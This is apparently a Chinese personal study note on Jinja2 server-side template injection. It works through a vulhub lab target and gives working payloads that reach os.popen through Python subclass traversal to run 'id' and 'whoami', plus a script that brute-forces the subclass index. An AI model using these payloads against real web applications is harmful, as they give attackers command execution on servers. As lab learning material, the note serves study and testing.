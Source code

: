 ```yaml
---
title: SSTI笔记
categories: [笔记]
comments: true
---
```

# SSTI笔记

## 前言

之前对于SSTI的payload构造不是很了解，今天打算重新学一下，了解payload的构造方法

10月份的时候闲的无聊就在挖公益SRC，遇到了一个tomcat的站，然后在Freebuf找到了一个挖洞经验分享，他就用到了Burpsuite的这个模块。这里插个眼：https://www.freebuf.com/articles/web/247253.html

## 利用点

\_\_class\__

返回对象所属类

![image-20201213174236634](../assets/img/text/image-20201213174236634.png)

\__bases\_\_

以元组的形式返回一个类所继承的类

![image-20201213174528533](../assets/img/text/image-20201213174528533.png)

\__mro__

以元组形式返回类的解析顺序

![image-20201213174614261](../assets/img/text/image-20201213174614261.png)

\__subclasses__()

返回类下的所有子类

![image-20201213174925233](../assets/img/text/image-20201213174925233.png)

\__init__

获取每个类的\__init\_\_函数

funtions.\__globals__

用于获取function所处空间下可使用的module、方法以及所有变量。

![image-20201213175305093](../assets/img/text/image-20201213175305093.png)

## 基本注入思路

利用\_\_class\_\_拿到对应的类、利用\__base\_\_拿到基类、用\_\_subclasses\_\_()拿到可利用的类，尝试利用这些类进行getshell

## 实例

靶场来源于vulhub docker搭建的靶场

访问靶场

![image-20201213180017624](../assets/img/text/image-20201213180017624.png)

尝试检测是否存在注入http://192.168.35.128:8000/?name={{123*2}}

![image-20201213180044688](../assets/img/text/image-20201213180044688.png)

发现得到的结果正好是算术表达式的结果。确定存在注入

输入payload尝试获取类,需要注意的是要打开F12，不然是看不见解析出来的结果的，因为得到的是<class 'object'>，html会将他识别为标签解析，所以在网页上无法直接显示

http://192.168.35.128:8000/?name={{123.\_\_class\_\_.\_\_bases\_\_}}

![image-20201213180220233](../assets/img/text/image-20201213180220233.png)

获取子类http://192.168.35.128:8000/?name={{123.\_\_class\_\_.\_\_bases\_\_[0].\_\_subclasses\_\_()}}

![image-20201213180534161](../assets/img/text/image-20201213180534161.png)





然后如果在html里找太麻烦了，我懒得看，所以可以换一种方式，利用执行语句的方式直接找到函数之后进行命令执行

```python
payload:
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  	{% for b in c.__init__.__globals__.values() %}
  	{% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  	{% endif %}
 	{% endfor %}
{% endif %}
{% endfor %}

```

![image-20201213193534127](../assets/img/text/image-20201213193534127.png)

## 后记

之前一直在尝试用popen也就是固定的位置，本机测出来的128索引，但是一直失败，不知道为啥，然后去靶机里面查看了才知道是位置不同，踩了好久的坑。。最后测出来popen函数的位置在117

```python
payload：{{"".__class__.__bases__[0].__subclasses__()[117].__init__.__globals__.popen('whoami').read()}}
```

![image-20201213193856764](../assets/img/text/image-20201213193856764.png)

其实也可以利用python写一个简单的脚本遍历这个参数

```python
import requests
for i in range(0,1000):

    url = 'http://192.168.35.128:8000/?name={{"".__class__.__bases__[0].__subclasses__()[%d].__init__.__globals__.popen(\'whoami\').read()}}'% i
    response = requests.get(url)
    if response.status_code == 200:
        print(i)
        break
```

![image-20201213194343290](../assets/img/text/image-20201213194343290.png)

因为错误的时候服务器是返回的500错误码，所以我直接利用200进行判断了，可以根据具体情况修改。